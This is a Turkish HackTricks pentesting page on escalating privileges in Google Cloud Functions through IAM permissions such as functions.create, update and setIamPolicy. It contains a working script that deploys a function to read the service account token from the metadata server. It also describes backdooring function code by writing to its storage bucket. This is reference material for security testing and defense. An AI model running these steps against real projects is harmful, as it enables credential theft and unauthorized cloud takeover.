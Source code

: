 # GCP - Cloudfunctions Privesc

{{#include ../../../banners/hacktricks-training.md}}

## cloudfunctions

Cloud Functions hakkında daha fazla bilgi:

{{#ref}}
../gcp-services/gcp-cloud-functions-enum.md
{{#endref}}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Bu yetkilere sahip bir saldırgan **keyfi (kötü niyetli) kodla yeni bir Cloud Function oluşturabilir ve ona bir Service Account atayabilir**. Ardından, yetkileri artırmak için metadata'dan Service Account token'ını sızdırabilir.\
Fonksiyonu tetiklemek için bazı yetkiler gerekebilir.

Bu yöntem için istismar betikleri [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) ve [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) bulunabilir ve önceden oluşturulmuş .zip dosyası [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions) mevcuttur.

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Bu yetkilere sahip bir saldırgan **bir Fonksiyonun kodunu değiştirebilir ve hatta ekli olan hizmet hesabını değiştirebilir** ve token'ı dışarı sızdırma amacı güdebilir.

> [!CAUTION]
> Cloud functions dağıtmak için varsayılan compute service account veya imajı oluşturmak için kullanılan service account üzerinde actAs izinlerine de ihtiyacınız olacak.

Ekstra yetkiler, versiyon 1 cloudfunctions için `.call` izni veya fonksiyonu tetiklemek için `role/run.invoker` rolü gibi gerekebilir.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
> [!CAUTION]
> Eğer `Permission 'run.services.setIamPolicy' denied on resource...` hatasını alıyorsanız, bu `--allow-unauthenticated` parametresini kullandığınız ve yeterli izinlerinizin olmadığı anlamına gelir.

Bu yöntem için istismar betiği [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py) bulunabilir.

### `cloudfunctions.functions.sourceCodeSet`

Bu izinle, bir **fonksiyon bucket'ına dosya yüklemek için imzalı bir URL alabilirsiniz (ancak fonksiyonun kodu değişmeyecek, hala güncellemeniz gerekecek)**
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
Tam olarak bu iznin bir saldırgan perspektifinden ne kadar faydalı olacağından emin değilim, ama bilmekte fayda var.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Önceki **`.update`** veya **`.create`** ayrıcalıklarından herhangi birini kendinize vererek yükseltme yapabilirsiniz.

### `cloudfunctions.functions.update`

Sadece **`cloudfunctions`** izinlerine sahip olmak, **`iam.serviceAccounts.actAs`** olmadan fonksiyonu güncelleyemezsiniz, BU YÜKSELTME İÇİN GEÇERLİ DEĞİLDİR.

### Bucket Üzerinde Okuma ve Yazma Erişimi

Eğer bucket üzerinde okuma ve yazma erişiminiz varsa, kodda değişiklikleri izleyebilir ve bucket'ta bir **güncelleme olduğunda yeni kodu kendi kodunuzla güncelleyebilirsiniz**; böylece Cloud Function'ın yeni versiyonu gönderilen arka kapılı kodla çalıştırılacaktır.

Saldırı hakkında daha fazla bilgi edinebilirsiniz:

{{#ref}}
gcp-storage-privesc.md
{{#endref}}

Ancak, bunu üçüncü taraf Cloud Functions'ı önceden tehlikeye atmak için kullanamazsınız çünkü eğer bucket'ı kendi hesabınızda oluşturur ve dış projenin üzerine yazabilmesi için kamu izinleri verirseniz, aşağıdaki hatayı alırsınız:

<figure><img src="../../../images/image (1) (1) (1).png" alt="" width="304"><figcaption></figcaption></figure>

> [!CAUTION]
> Ancak, bu DoS saldırıları için kullanılabilir.

### Artifact Registry Üzerinde Okuma ve Yazma Erişimi

Bir Cloud Function oluşturulduğunda, projenin Artifact Registry'sine yeni bir docker imajı yüklenir. İmajı yeni bir imajla değiştirmeyi denedim ve mevcut imajı (ve `cache` imajını) silmeyi denedim ama hiçbir şey değişmedi, cloud function çalışmaya devam etti. Bu nedenle, belki de **bucket ile bir Yarış Koşulu saldırısını kötüye kullanmak mümkün olabilir** ama **sadece saklanan imajı değiştirmek Cloud Function'ı tehlikeye atmak için yeterli değildir**.

## Referanslar

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../banners/hacktricks-training.md}}
